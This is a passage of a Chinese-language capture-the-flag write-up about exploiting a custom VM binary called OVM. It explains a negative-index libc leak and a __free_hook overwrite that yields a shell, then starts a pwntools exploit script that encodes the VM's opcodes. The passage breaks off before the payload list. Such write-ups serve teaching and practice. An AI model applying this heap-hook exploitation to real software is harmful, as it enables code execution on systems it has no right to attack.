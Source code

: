 因为只能4位一组，所以只能分别取到低四位和高四位



```
    readn(4,2), #reg[4] = memory[reg[2]] stdin+4
    setnum(1,0x10),
    lhl(1,1,0), #reg[1] = reg[1]<
```

这里用的是泄露stdin的libc地址，进而得到free\_hook的地址


因为最后向这里写数据


[![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212225519456-1239240624.png)](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241212225519456-1239240624.png) 


所以可以把这里存放着free\_hook \-8 的地址，那么就可以getshell


那么整体思路就是通过构造负数下标，得到libc地址，然后构造高低位来泄露libc地址，然后根据偏移得到free\_hook \-8地址，然后继续通过高低位写入comment函数，获取shell


## EXP：



```
from gt import *
con("amd64")

io = process("./OVM")
libc = ELF("/home/su/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so")

def add(v4,v3,v2):
    opcode = u32((p8(0x70)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode


def xor(v4,v3,v2):
    opcode = u32((p8(0xb0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def rhl(v4,v3,v2):
    opcode = u32((p8(0xd0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def lhl(v4,v3,v2):
    opcode = u32((p8(0xc0)+p8(v4)+p8(v3)+p8(v2))[::-1])
    return opcode

def readn(v4,v2):
    opcode = u32((p8(0x30)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode

def writen(v4,v2):
    opcode = u32((p8(0x40)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode

def setnum(v4,v2):
    opcode = u32((p8(0x10)+p8(v4)+p8(0)+p8(v2))[::-1])
    return opcode

#n=(0x202060-0x201f80)/4 = 56
#-56 = 0xffffffc8
#-8
#stdin -> __free_hook = 0x2398
code =[
```